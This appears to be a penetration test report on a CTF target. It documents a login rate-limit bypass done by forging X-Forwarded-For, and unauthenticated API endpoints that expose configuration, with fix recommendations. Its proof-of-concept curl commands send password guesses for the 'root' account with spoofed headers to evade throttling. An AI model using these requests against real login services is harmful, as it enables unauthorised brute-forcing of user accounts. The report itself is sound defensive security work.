

# Penetration Test Report: new.hahacc.com (CTF)

- Test date: 2026-05-26
- Target: `new.hahacc.com`
- Scope: only the target domain and its exposed interfaces
- Method: passive information gathering + interface enumeration + verification of authentication and rate limiting

## Summary of conclusions

This test found 2 classes of core problems:

1. The login rate limit can be bypassed by forging `X-Forwarded-For` (high)
2. Several unauthenticated interfaces expose sensitive system runtime configuration (medium)

## Vulnerability 1: login rate limit bypass (XFF Header Trust)

- Risk level: high
- Affected interface: `POST /api/user/login`
- Description:
  Without validating the trustworthiness of the proxy chain, the server appears to use a controllable request header (`X-Forwarded-For`) as the rate limiting key. An attacker can bypass the 429 limit by forging or rotating XFF and run high-concurrency password attempts.

### Reproduction commands (PoC)

```bash
# 1) Without a forged header: rate limit triggered
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 429

# 2) With a forged XFF: requests work again (rate limit bypassed)
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: 10.0.0.123" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 200
```

### Evidence

- Consecutive requests without XFF: `429`
- Consecutive requests with rotating XFF: `200`

### Fix recommendations

1. Trust only the real source IP injected by the reverse proxy layer (for example Nginx `real_ip` + a trusted proxy allowlist).
2. Base application-layer rate limiting on the trusted source address + account + device fingerprint combined.
3. Validate the source of `X-Forwarded-For` strictly and forbid clients from overriding it directly.
4. Add login failure delays and account protection policies (sliding window, exponential backoff, CAPTCHA escalation).

## Vulnerability 2: unauthenticated sensitive information exposure (status and business configuration)

- Risk level: medium
- Affected interfaces:
  - `GET /api/status`
  - `GET /api/pricing`
  - `GET /api/setup`
- Description:
  Without logging in, one can obtain the complete system runtime configuration, feature flags, OAuth/Passkey parameters, group policies and model/billing policies, which can be used to build a precise attack surface and optimize credential stuffing.

### Reproduction commands (PoC)

```bash
curl -k -s https://new.hahacc.com/api/status
curl -k -s https://new.hahacc.com/api/pricing
curl -k -s https://new.hahacc.com/api/setup
```

### Examples of key exposure points

- `self_use_mode_enabled`
- `turnstile_check`
- `passkey_rp_id` / `passkey_origins`
- `supported_endpoint` / `group_ratio` / `usable_group`
- The `setup` and `root_init` status fields

### Fix recommendations

1. Move highly sensitive configuration behind authenticated interfaces and return only the minimal fields the front end displays.
2. Build a field allowlist for anonymous interface output and deny internal configuration fields by default.
3. Apply access control and minimal return values to the initialization status interface (avoid state inference).

## Attack path diagram



## Other test records

- Several open ports were found at the port level (22/80/443/3000/3306/5000/5432/6379/8080/8443/9200/27017), but most service fingerprints were restricted and were not exploited further within this scope.
- Most interfaces in the batch probe are protected by authentication (401), which shows the core business still has basic authorization.

## Risk conclusion

The main risk of this target is not a "direct unauthorized login" but "brute-force protection that can be bypassed + excessive anonymous information exposure". Used together, they significantly lower the cost of an attack.

